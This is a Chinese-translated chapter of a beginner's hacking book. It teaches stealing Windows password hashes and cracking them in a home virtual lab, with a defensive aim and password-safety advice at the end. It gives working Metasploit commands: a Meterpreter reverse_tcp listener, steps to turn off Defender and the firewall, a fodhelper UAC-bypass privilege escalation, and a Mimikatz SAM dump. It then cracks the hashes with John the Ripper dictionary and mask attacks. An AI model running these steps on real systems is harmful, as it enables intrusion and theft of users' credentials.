








# 偷窃与破解密码


在第六章中，你学习了攻击者如何创建恶意软件来感染你的计算机并查看你的文件、按键记录、屏幕、摄像头视频等内容。在本章中，你将看到攻击者如何使用相同的恶意软件窃取 Windows 计算机上所有用户的加密密码。然后你将了解黑客如何*破解*这些密码，或将它们恢复为未加密的明文形式。

如果攻击者破解了你的密码，他们可能能够黑入任何你使用过该密码的账户、网站或设备——即使你已经添加了额外的字符，使其在其他账户中显得“独特”。弱密码是黑帽黑客最容易突破组织网络或你的个人账户的方式之一。然而，如果你的密码足够强大，即使攻击者窃取了加密密码，他们也无法破解它。

## 密码哈希

现代计算机系统和安全网站在存储密码之前，会使用加密哈希函数对密码进行加密。与间谍电影中出现的代码不同，那些代码是为了在接收端解码的，而*加密哈希函数*以一种无法反向或解密的方式加密你的密码。密码的哈希版本称为*密码哈希*。哈希值可以看作是由十六进制数字组成的长字符串，如示例 7-1 所示。

```
359878442cf617606802105e2f439dbc
63191e4ece37523c9fe6bb62a5e64d45
9dddd5ce1b1375bc497feeb871842d4b
4d1f35512954cb227b25bbd92e15bc7b
e6071c75ea19bef227b49e5e304eb2f1
```

示例 7-1：五个密码的哈希版本

当你登录到计算机或网站时，唯一的方式来检查你输入的密码是否正确，就是对你输入的字符运行相同的哈希函数，然后将结果与存储在数据库中的密码哈希进行比较。

哈希函数有很多不同的类型，但它们有几个共同点：

+   相同的输入文本总是会在特定的哈希函数中生成相同的哈希值；这是必要的，以便当你返回到网站时，可以将存储的密码哈希与输入的密码哈希进行比对。

+   从特定哈希函数生成的每个哈希值都会有相同的长度，无论输入文本的长度是多少。由于一个单词的密码和五个单词的密码会产生相同数量的哈希字符，因此哈希函数隐藏了密码的长度。

+   仅更改输入中的一个字符，就会导致哈希中的大量字符发生变化，因此，即使只添加一个字符到密码中，也会完全改变哈希。

## 偷窃 Windows 密码哈希

在本节中，我们将使用你的 Kali Linux 虚拟机从 Windows 10 虚拟机窃取密码数据。首先，我们将在 Windows 10 虚拟机中创建几个用户名和密码。接下来，我们将使用 Meterpreter 远程访问特洛伊木马重新进入 Windows 虚拟机。然后，我们将使用 Metasploit 中的 Mimikatz 工具窃取 Windows 10 受害机的密码哈希。

### 创建 Windows 用户

首先，我们来为 Windows 10 虚拟机添加一些用户，以便以后窃取它们的密码哈希值。

1.  在 VirtualBox 中打开你的 Windows 10 虚拟机（使用 `IEUser` 和 `Passw0rd!` 登录）。

1.  在 Windows 搜索栏中输入 `cmd`，右键点击 **命令提示符** 应用，然后点击 **以管理员身份运行**。当 Windows 提示是否允许此应用对设备进行更改时，点击 **是**。

1.  使用我们在第二章的 Sticky Keys 黑客攻击中使用的相同命令，创建一个新用户帐户：

    ```
    C:\WINDOWS\system32> `net user ironman Jarvis /add`
    ```

    此命令添加一个名为 *ironman* 的用户，密码为 *Jarvis*。

1.  现在添加几个更多的用户帐户，密码的复杂度和长度各不相同：

    ```
    C:\WINDOWS\system32> `net user ana Password1 /add`
    C:\WINDOWS\system32> `net user ben P@$$w0rd! /add`
    C:\WINDOWS\system32> `net user carol CaptainMarvel /add`
    C:\WINDOWS\system32> `net user clark superman20 /add`
    C:\WINDOWS\system32> `net user kara SuperGirl7! /add`
    C:\WINDOWS\system32> `net user peter SpidermanRulez:) /add`
    ```

1.  在执行完最后一个命令后，Windows 会警告你密码超过了 14 个字符（这是 2000 年之前 Windows 机器上对密码长度的限制！）。输入 `Y` 以告知 Windows 你仍然想使用这个长密码。

1.  最后，为一个使用你名字的用户名创建一个强密码（由至少四个单词组成，加上一个数字或特殊符号），但请确保这是一个假的密码，不用于任何真实账户，因为我们将尝试破解它。以下是我的示例：

    ```
    C:\WINDOWS\system32> `net user` `bryson Don'tyouwishyourpasswordwastoughlikemine!` `/add`
    ```

你可能觉得这样的密码每次登录时打字很麻烦，但实际上它比你添加的大多数密码更容易记住，也更难猜测。

### 使用 Meterpreter 反向攻击 Windows 10

接下来，我们需要从 Kali 中反向攻击进入 Windows 10 虚拟机。

1.  启动你的 Kali 虚拟机（用用户名和密码 `kali` 登录），点击 Kali 菜单按钮，选择 **08 - Exploitation Tools**▶**Metasploit Framework** 打开 Metasploit 应用。

1.  在 `msf6` 命令提示符下，输入以下命令以再次启动 Kali Web 服务器：

    ```
    msf6 >`sudo service apache2 start`
    ```

    Web 服务器将提供包含你 Windows 恶意软件的 *10.0.9.x/share* 文件夹，以防你需要重新下载它。

1.  在 Metasploit 中输入以下四个命令，监听 Meterpreter 木马回拨：

    ```
    msf6 >`use exploit/multi/handler`
    msf6 exploit(multi/handler) > `set PAYLOAD windows/meterpreter/reverse_tcp`
    msf6 exploit(multi/handler) >`set LHOST` `10.0.9.x`
    msf6 exploit(multi/handler) >`exploit -j`
    ```

    记得将 `10.0.9.x` 替换为你 Kali 虚拟机的 IP 地址（输入 `ip` `addr` 或 `ip` `a` 来查看 IP 地址）。

1.  切换回你的 Windows 10 虚拟机。关闭 Windows Defender 的实时病毒保护：在 Windows 搜索栏中输入 `virus`，打开 **病毒和威胁防护设置**，点击 **管理设置**，然后将实时保护下的开关滑动到 **关闭**。

1.  在 Windows 10 虚拟机的管理员命令提示符中输入以下命令，禁用 Windows 防火墙：

    ```
    C:\Windows\system32> `netsh advfirewall set allprofiles state off`
    ```

    Windows 会回应 `Ok.`。

1.  找到你在第六章创建的 Meterpreter 木马可执行文件。这个文件应该仍然在你的 *下载* 或 *文档* 文件夹中。如果 Windows Defender 已将其移除，打开 Edge 浏览器，访问 *http://<10.0.9.4>/share/*（如果你的 Kali 虚拟机 IP 地址与 *10.0.9.4* 不同，请替换为你的 Kali 虚拟机 IP 地址），并重新下载木马。再次检查你的病毒和威胁保护设置，确保实时保护已关闭。然后双击木马文件运行它。

1.  切换回您的 Kali 虚拟机，您应该看到一个 Meterpreter 会话已经打开：

    ```
    msf6 exploit(multi/handler) > `[*] Sending stage (179779 bytes) to 10.0.9.5``[*] Meterpreter session 1 opened (10.0.9.4:4444 -> 10.0.9.5:50789) at 2020-06-17 15:40:38 -0400`
    ```

### 提升权限

窃取 Windows 密码需要管理员或系统级别的权限，这比您用于运行 Meterpreter 木马的 IEUser 帐户权限要高。借助 Metasploit，我们将通过另一个漏洞利用提升权限。这个过程被称为*权限提升*。

我们将使用 Metasploit 对 Windows `fodhelper`漏洞的利用来获得系统级访问权限。Windows 使用一个名为*fodhelper.exe*的程序（*fod*是“按需功能”的缩写）来管理区域设置，例如您选择的语言的键盘布局。这个应用程序是黑客的一个好目标，因为它以更高的权限运行，能够跨多个应用程序（如您的网页浏览器、文字处理器和桌面）更改语言设置。

1.  在您的 Kali 虚拟机中，确保您处于`msf6`命令提示符下，而不是与 Meterpreter 会话进行交互。如果您看到`meterpreter >`命令提示符，请输入`background`以返回到常规的`msf6`命令提示符：

    ```
    meterpreter > `background`[*] Backgrounding session 1...
    msf6 exploit(multi/handler) >
    ```

1.  在`msf6`提示符下，输入粗体显示的五个命令：

    ```
    msf6 exploit(multi/handler) > `set PAYLOAD windows/meterpreter/reverse_tcp`
    PAYLOAD => windows/meterpreter/reverse_tcp
    msf6 exploit(multi/handler) > `use exploit/windows/local/bypassuac_fodhelper`
    [*] Using configured payload windows/meterpreter/reverse_tcp
    msf6 exploit(windows/local/bypassuac_fodhelper) >`set SESSION` `1`
    SESSION => `X`
    msf6 exploit(windows/local/bypassuac_fodhelper) > `set LHOST` `10.0.9.x`
    LHOST => `10.0.9.x`
    msf6 exploit(windows/local/bypassuac_fodhelper) > `exploit`
    ```

    更改`set` `SESSION`命令以匹配您的会话编号（如果不是 1 的话），并将`LHOST`的 IP 地址更改为与您的 Kali 机器匹配。

1.  最后的命令`exploit`可能需要尝试几次。如果收到消息提示`no` `session` `was` `created`，请使用向上箭头并按回车键重新运行`exploit`命令。当成功时，您会看到`Meterpreter` `session` `2` `opened`，这意味着漏洞利用成功打开了第二个会话。您的命令提示符将返回到`meterpreter >`，表明您正在与一个新的 Meterpreter 会话进行交互。

    权限提升是您在本书中执行的最具技术挑战的黑客攻击，可能需要多次尝试。如果您不断看到“no session created”的消息，请检查您的 Windows 10 虚拟机，确保 Windows Defender 的病毒和威胁防护设置仍然关闭。如果仍然卡住，请尝试从头开始重新运行攻击。并且，在未来五年内，Windows 有很大的可能性修复`fodhelper`漏洞，那时您将不得不尝试不同的漏洞利用。请访问本书网站[`www.nostarch.com/go-hck-yourself/`](https://www.nostarch.com/go-hck-yourself/)获取更新，或在最新版本的 Windows 上搜索“Metasploit 权限提升”。

1.  在 Meterpreter 中输入`getsystem`以获取 Windows 10 虚拟机的系统级访问权限：

    ```
    meterpreter >`getsystem`
    ...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
    ```

1.  通过输入`getuid`检查是否获得了系统级访问权限：

    ```
    meterpreter >`getuid`
    Server username: NT AUTHORITY\SYSTEM
    ```

    Meterpreter 会回应您的用户 ID 是`NT` `Authority\System`，这表明您现在拥有系统级访问权限。

### 使用 Mimikatz 窃取密码哈希

既然我们已经获得了系统级别的权限，我们就准备好窃取密码哈希了。我们将使用 Mimikatz，一种能够从多个位置访问 Windows 密码的黑客工具，包括在计算机运行时直接从内存中访问密码。Metasploit 中的 Mimikatz 模块名为`kiwi`（编写 Mimikatz 的新西兰人 Benjamin Delpy 自称为 Gentil Kiwi）。

1.  在 Meterpreter 提示符下输入`use` `kiwi`以加载 Mimikatz 工具：

    ```
    meterpreter > `use kiwi`
    ```

1.  Mimikatz 启动屏幕将在你的 Meterpreter 控制台中显示。现在我们可以像这样转储 Windows 10 虚拟机中所有用户的密码哈希：

    ```
    meterpreter >`lsa_dump_sam`
    ```

1.  Mimikatz 会通过列出它可以找到的所有用户和 Windows 密码哈希来回应：

    ```
    [+] Running as SYSTEM
    [*] Dumping SAM*--snip--*
    RID  : 000003f0 (1008)
    User : peter Hash NTLM: e262404bfe47aa34ba668187b4209380
    RID  : 000003f1 (1009)
    User : bryson Hash NTLM: 0a2b1c4f5d7ad37f9e2df24ff3ab4c48 
    ```

    密码哈希使用*新技术局域网管理器（NTLM）格式*，这是 Windows 计算机存储登录信息的一种方式，包括密码哈希。我们稍后会选择这种密码哈希格式来破解密码。

1.  为了破解密码哈希，我们需要将其收集到一个文本文件中。高亮选择用户名和 NTLM 哈希，右键点击选择内容，并选择**复制**（在 Metasploit 控制台中不能使用 ctrl-C 复制；这是退出或关闭终端窗口中运行的进程的命令）。

1.  通过点击 Kali 菜单按钮并选择**收藏夹**▶**文本编辑器**来打开 Mousepad 文本编辑器。按 ctrl-V 将从 Meterpreter 复制的文本粘贴到 Mousepad 中。

1.  点击**文件**▶**新建**以打开第二个 Mousepad 窗口。将用户名和密码哈希值按`用户名``:``哈希`的格式复制并粘贴到这个新文档中，每行一个用户名和哈希值，用冒号分隔，如图 7-1 所示。确保没有额外的空格。

    图 7-1：将用户名和 NTLM 哈希值复制并粘贴到新的文本文件中

    跳过没有哈希值的用户或任何 Windows 创建的帐户，如 sshd、Guest 和 DefaultAccount。你只需要关注真正的用户和管理员帐户，例如 IEUser、Administrator 以及你在本章早些时候创建的用户帐户。

1.  将文件保存为*Windows_hashes.txt*，存放在你的*文档*文件夹中。

## 破解密码

现在我们已经有了从 Windows 虚拟机窃取的用户名和密码哈希文档，我们可以开始破解密码了。黑客有几种不同的密码破解方法。*字典攻击*使用常见密码的列表，逐一哈希每个密码，看看是否与要破解的哈希匹配。字典攻击速度很快，但仅对相对简单的密码有效。*暴力破解攻击*系统地尝试每一种字符组合，即使是高度复杂的密码也能破解，直到达到一定长度。这使得暴力破解攻击非常彻底，但极为缓慢。*掩码攻击*是一种特殊的暴力破解攻击，当我们知道密码的一部分并且只需要暴力破解几个字符时，会使用这种攻击。

我们将尝试几种密码破解方法。正如你所看到的，互联网和 Kali Linux 都有资源可以轻松破解密码。首先，你将搜索一个免费的在线密码数据库来破解常见的密码哈希。然后，你将使用 Kali 中的许多密码破解工具之一——John the Ripper，来破解更多的哈希。你将首先使用字典攻击来破解较简单的密码，然后使用掩码攻击完成破解。

### 免费在线密码数据库

Hashes.com 是一个网络服务，允许你在一个包含 *数十亿* 已破解哈希的数据库中搜索密码。每次你对一个特定的密码进行哈希处理时，你都会得到相同的哈希值，因此数据库可以存储每个密码及其哈希值。当你搜索哈希时，数据库会返回未加密的密码（如果该密码存在于数据库中）。

1.  在你的 Kali 虚拟机中，打开 Firefox 浏览器并访问 [`hashes.com/decrypt/hash/`](https://hashes.com/decrypt/hash/)。

1.  将来自 *Windows_hashes.txt* 文件的用户名和密码哈希粘贴到 Hashes 文本框中。然后删除用户名，只保留哈希值，如 图 7-2 所示。

1.  点击 **提交并搜索** 以搜索 Hashes.com 数据库。片刻之后，你应该会看到一份已破解密码的列表：

    ```
    64f12cddaa88057e06a81b54e73b949b:Password1
    85f4aaf6ac4fac1d9b55e6b880bcda3e:CaptainMarvel
    920ae267e048417fcfe00f49ecbd4b33:P@$$w0rd!
    d6566eae841e523df8fd96a42bcbd4ac:superman20
    fc525c9683e8fe067095ba2ddc971889:Passw0rd!`--snip--`
    ```

    

    图 7-2：Hashes.com 接收你的 NTLM 哈希作为输入，并输出它在数据库中找到的任何已破解密码。

Hashes.com 找到了五个密码！由于它不断向数据库中添加新密码，它可能能够破解我们在本书中使用的更多简单密码。

我们已经通过一个免费的在线查找工具从我们的 Windows 虚拟机中恢复了至少五个密码——攻击者可能只需要 *一个* 用户名和密码就能入侵网络、公司或政府机构。这就是为什么组织中的 *每个用户* 都应该选择更长、更难猜测的密码。

### John the Ripper

John the Ripper，通常缩写为 JtR 或简直接称为 John，是最古老的密码破解工具之一；自从第一版 John 发布已经超过 20 年。John 被包含在 Kali Linux 中，位于 Kali 菜单下的 05 - 密码攻击菜单中。

John 运行于命令行终端，但还有一个版本的 John，叫做 Johnny，具有更易操作的图形用户界面（GUI）。Johnny 并未包含在 Kali 的最新版本中。要安装它，请打开一个新的终端窗口并输入以下两个命令：

```
kali@kali:~$ **sudo apt update**
kali@kali:~$ **sudo apt install johnny**
```

在输入第一个命令后，你可能需要输入你的密码（`kali`）。安装完成后，Johnny 通常会出现在 05 - 密码攻击菜单中，但你也可以通过输入 `johnny` 在终端中运行它。

我们将使用 Johnny 中的两种方法来破解更多被盗的 Windows 密码。我们将尝试字典攻击来破解常见密码，并使用掩码攻击来破解具有变化的密码。你在 Johnny 中做的每一项操作，也可以通过终端中的 John 来完成；在使用 Johnny 之后，你可以查找 John 的命令并尝试它们，理解整个过程。

#### 字典攻击

我们将首先尝试字典攻击。字典攻击，也叫*字典攻击*，是通过将我们要破解的哈希与提供的常见密码列表中的每个密码进行比对。如果找到了匹配项，我们就破解了该密码。

Kali 包含几个内置的字典文件，包括 RockYou 字典。RockYou 是一家公司，在 2009 年因一个保护不力的 Web 应用程序而泄露了 3200 万个用户的密码。这份由 RockYou 泄露的明文密码列表仍然是检查密码安全性的最佳免费字典之一。

1.  要访问 RockYou 字典文件，在终端窗口中输入以下命令：

    ```
    kali@kali:~$ `sudo gunzip /usr/share/wordlists/rockyou.txt.gz`
    ```

    该命令将提取单词列表并保存为*rockyou.txt*文件，放置在*/usr/share/wordlists*文件夹中，以便在 John 和 Johnny 中作为字典使用。

1.  通过点击 Kali 菜单按钮并选择**05 - 密码攻击**▶**johnny**来打开 Johnny。

1.  点击**打开密码文件**▶**打开密码文件（PASSWD 格式）**。找到我们之前创建的*Windows_hashes.txt*文件，如图 7-3 所示，并选择它以加载密码哈希文件。

    图 7-3：在 Johnny 中打开*Windows_hashes.txt*密码文件

1.  在 Johnny 中点击左侧的**选项**，然后在选项窗口中的攻击模式下点击**字典**选项卡。在“字典文件:”文本框中输入`/usr/share/wordlists/rockyou.txt`，如图 7-4 所示。

    图 7-4：通过 Johnny 加载*rockyou.txt*字典文件

1.  仍在选项窗口中，在会话详情下，从当前哈希格式：下拉列表中选择**NT**，如图 7-5 所示。这告诉 Johnny，密码哈希采用 NTLM 格式。

    图 7-5：选择*NT*作为输入密码哈希格式

1.  点击左侧的**密码**，然后点击顶部的**开始新攻击**。

几乎瞬间，Johnny 将显示几个破解的密码，如图 7-6 所示。（如果没有显示，请确保在步骤 5 中已将当前哈希格式更改为 NT。）



图 7-6：Johnny 几乎不费时间就使用我们捕获的哈希值破解了五六个密码。

我们花了几分钟来捕获密码哈希，但用了不到一秒钟的时间，就通过使用 RockYou 字典进行字典攻击破解了前五六个密码。这就是恶意黑客需要做的全部工作，如果你使用的是简单的一到两个单词密码，并加上一些数字和符号的话。

RockYou 字典中包含了我们为用户设置的多个密码。其他一些密码复杂到没有出现在该字典列表中。让我们看看如何使用 Johnny 中的另一种选项——掩码攻击，破解一两个密码。

#### 掩码攻击

*掩码攻击* 从部分信息开始，比如一个旧密码，并通过添加字符来尝试破解类似的密码。你或你认识的人很有可能通过在旧密码后添加数字或符号来重用密码，比如 *badpassword20!*。这种行为比你想象的更为常见，这使得许多密码容易受到掩码攻击。

如果攻击者获得了某人密码的一部分，掩码攻击同样有效。想象一下 Kara，我们的 Windows 用户之一，在 CatCo Worldwide Media 工作。一天，在经过 Kara 的桌子时，一个爱打听的同事看到 Kara 丢弃在垃圾桶里的便签。虽然它被撕破了，但看起来上面写着她密码的一部分：*SuperGir*（见 图 7-7）。

社会工程师称这种行为为 *垃圾桶翻找*——字面意思就是在某人垃圾中寻找有用的信息，比如银行对账单、信用卡优惠或写在信封背面或便签上的密码。


图 7-7：Kara 撕破的便签，上面似乎写着她密码的一部分

在 Johnny 中，我们可以在 *SuperGir* 后面添加通配符字符，尝试猜测 Kara 的密码的其余部分是什么。*通配符* 是一个占位符，可以被字母、数字或符号中的任何一个替代。我们可以使用通配符字符 *?u* 代表大写字母，?l 代表小写字母，*?d* 代表数字（0–9），*?s* 代表特殊符号，或者 *?a* 代表所有可打印字符（字母、数字、标点符号和特殊字符）。

我们可以使用我们已知的密码部分（*SuperGir*），加上一些通配符字符，来创建一个掩码。*掩码* 通过填入我们已经知道的字符（在这个例子中是前八个字符：*SuperGir*），减少我们需要尝试的密码组合数量。我们不知道 Kara 的密码是否以数字、字母或特殊字符结尾，所以我们可以用 *SuperGir?a* 作为掩码来开始。

1.  在 Johnny 中，点击左侧的 **Options**，点击 **Mask** 标签，并在 Mask: 文本框中输入 `SuperGir?a`。

1.  点击顶部的 **Start new attack**。然后，点击左侧的 **Passwords**，查看是否破解了 Kara 的密码。你应该会看到，SuperGir 后面的单个通配符字符并未能够破解密码。

1.  返回**掩码**标签页，输入两个通配符字符，`SuperGir?a?a`，然后再次尝试。

1.  还是没有结果？输入第三个通配符字符，`SuperGir?a?a?a`，如图 7-8 所示。然后再次点击**开始新攻击**。



图 7-8：使用掩码攻击——在便签上找到的部分密码后添加通配符字符——来破解卡拉的密码

这次，窗口底部的进度条在图 7-8 中应该会改变，显示约翰尼成功破解了一个额外的密码。再次点击**密码**。现在，在*kara*旁边，你将看到她的密码*SuperGirl7!*，如图 7-9 所示。



图 7-9：密码掩码`SuperGir?a?a?a`成功破解了卡拉的密码(*SuperGirl7!*)，不到一秒钟！

即使我们只有卡拉密码的一部分，我们仍然可以使用掩码攻击来猜测她的完整密码。约翰尼只用了不到一秒钟就尝试了成千上万种可能性，从*SuperGir000*到*SuperGirl7!*，一一尝试。这意味着，如果你只是改变密码的数字和符号（例如在开头、中间或结尾），一个黑客如果发现你以前的密码，就可以在几秒钟内使用约翰尼或类似的工具猜出你当前的密码。

你也可以使用掩码攻击来破解彼得的密码。输入一些通配符字符——从`SpidermanRu?a`开始，然后是`SpidermanRu?a?a`，以此类推，直到破解完整密码。最后一轮可能需要五到六分钟，因为每增加一个字符，破解的复杂度会呈指数级增加（3 个通配符不到一秒，4 个通配符需要三到四秒，5 个通配符需要五到六分钟，6 个通配符需要近九小时，而 14 个通配符则需要几千年！）。

破解更长密码所需时间的指数增长正是为什么每个人都应该使用长密码的原因。无论我们运行约翰尼多少年，都不太可能破解我们设置的长密码，即你创建的最终密码。长密码是我们可以用来防止黑客进入账户的技巧之一。

## 使用更安全的密码

你可以通过几个小变化让密码变得如此复杂，以至于连专业人士也难以破解。首先，一般来说，密码越长，它就越安全。要创建一个强密码短语，可以选择四个或更多随机、无关的单词并将它们串联在一起。为了让密码短语几乎无法破解，可以添加一些数字或特殊字符。

除了常规键盘特殊字符如 *!*、*@*、*#* 和 *$*，你还可以添加来自不同语言或字母表的特殊字符。即使你使用的是较短的密码，而不是一个密码短语，添加来自其他语言的特殊字符也能让密码变得更难破解。

让我们来看看如何在不同操作系统中实现这一操作。

1.  在 Windows 上，按住 ALT 键并同时在数字小键盘上输入数字，然后松开 ALT 键。例如，按住 ALT 键并在数字小键盘上输入 0214；当你松开 ALT 键时，字符 `Ö`（一个带有变音符号的大写 *O*）将会出现。可以在网上搜索“Windows ALT 代码”来查找你想要使用的字符。注意，某些键盘可能需要你专门使用左侧的 ALT 键。在没有数字小键盘的笔记本上，你可以按 Windows 键加上句点键（Windows-.）来插入表情符号或其他符号。

1.  在 Linux 上，按 ctrl-shift-U；松开（屏幕上会看到一个带下划线的 *u*）；输入你想要的字符的 Unicode 十六进制值，例如 `d6`（或者对于需要四个数字的系统，输入 `00d6`）来得到 `Ö` 字符，然后按空格键或回车键。可以在网上搜索“Unicode 字符代码”来找到更多选项。

1.  在 macOS 上，按 CONTROL-COMMAND-SPACEBAR 打开字符查看器。输入 `u+d6` 来显示 `Ö` 字符。要插入该字符，可以按下方向键选择它然后按 ENTER，或者直接用鼠标点击它。Linux 上的相同 Unicode 字符代码也适用于 macOS 的字符查看器，只需在十六进制代码前加上 `u+`。

1.  iPhone 或 Android：在虚拟键盘上按住字母 O，直到弹出窗口出现 `Ö` 字符和其他选项。你无法在不安装应用或选择备用键盘布局的情况下访问所有 Unicode 字符，但大多数元音字母和一些辅音字母的长按会为你提供足够的选项，以增强你的密码强度。

当然，你可能无法记住超过一个或两个带有特殊字符的长密码。密码管理器可以减轻负担，通过为大多数账户设置长且随机的密码并安全地保存它们。另外，你应当在提供两步验证的情况下启用它。通过这一功能，即便攻击者破解了你的某个密码，他们也可能无法访问你的账户。我们将在第十一章中更详细地介绍这些工具。

## 重点总结

在本章中，你学习了攻击者如何通过 Mimikatz 和 Metasploit 在网络上窃取 Windows 密码哈希。一旦攻击者通过恶意软件侵入你的计算机，他们就可以（并且通常会）搜索系统中的密码或其他敏感数据。然后你看到了黑客如何通过免费在线密码数据库或在 John the Ripper 中进行字典攻击轻松破解许多密码哈希。你还学会了如何通过掩码攻击破解更复杂的密码，即在旧密码或不完整密码中添加一些通配符字符。

最后，你学到了一些保护自己免受本章密码攻击的技巧。以下是一些可以终生改变你密码习惯的做与不做的简短总结：

+   *不要*在多个账户之间使用相同的密码。

+   *不要*通过在密码的末尾（或中间、开头）添加数字或符号来重复使用密码。

+   *不要*将密码写下来，或将其存储在明文文档或电子表格中。

+   *请*使用包含一个或多个特殊字符的长密码短语。

+   *请*使用密码管理器和多因素认证。

这些建议将使你的在线生活比普通人更轻松，*也更*安全。然而，攻击者不必访问你的计算机就能窃取密码；他们可以通过互联网从网页应用和服务器中窃取密码和其他信息。在下一章中，我们将学习如何通过攻击一个脆弱的 Web 服务器，在我们的虚拟实验室中进行实际操作。

不过，首先请查看清单 7-2，看看你是否成功破解了章节开始时的密码！

```
359878442cf617606802105e2f439dbc Wow!
63191e4ece37523c9fe6bb62a5e64d45 Great
9dddd5ce1b1375bc497feeb871842d4b job
4d1f35512954cb227b25bbd92e15bc7b cracking
e6071c75ea19bef227b49e5e304eb2f1 passwords!
```

清单 7-2：来自清单 7-1 的破解密码
